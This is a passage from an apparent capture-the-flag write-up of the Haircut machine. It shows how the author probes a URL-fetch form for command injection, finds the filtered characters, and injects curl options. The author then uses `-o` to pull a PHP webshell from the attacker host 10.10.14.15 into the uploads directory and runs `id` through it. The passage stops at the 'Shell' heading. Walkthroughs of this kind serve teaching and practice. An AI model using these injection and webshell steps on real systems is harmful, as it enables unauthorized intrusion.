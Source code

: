The first thing I tried was to fetch `http://10.10.14.15/test.php; ping -c 1 10.10.14.15;`. The return shows that there’s some level of filtering going on:

```

	<span>
		<p>Requesting Site...</p>; is not a good thing to put in a URL	</span>

```

I found a handful of other characters that seem to set off the filter: `&|!#%[]{}`.

### Option Injection

If I’m going to have trouble running a different command, could I at least mess with `curl` by injecting options. If I send `http://10.10.14.15/test.php -b testcookie=testvalue`, I can watch on `nc` to see if the cookie is included in the request. It is:

```

root@kali# nc -lknvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.24.
Ncat: Connection from 10.10.10.24:48118.
GET /test.php HTTP/1.1
Host: 10.10.14.15
User-Agent: curl/7.47.0
Accept: */*
Cookie: test=test

```

I was successfully able to injection a `curl` option.

### Upload Webshell

Instead of a cookie, I’ll use `-o` to save the file on Haircut. I can save it into the `uploads` directory and see if it will run as PHP there. When I submit `http://10.10.14.15/cmd.php -o uploads/0xdf.php`, I only see the status come back:

![image-20200903165427061](https://0xdfimages.gitlab.io/img/image-20200903165427061.png)

When I check for my shell, it’s there:

```

root@kali# curl http://10.10.10.24/uploads/0xdf.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell
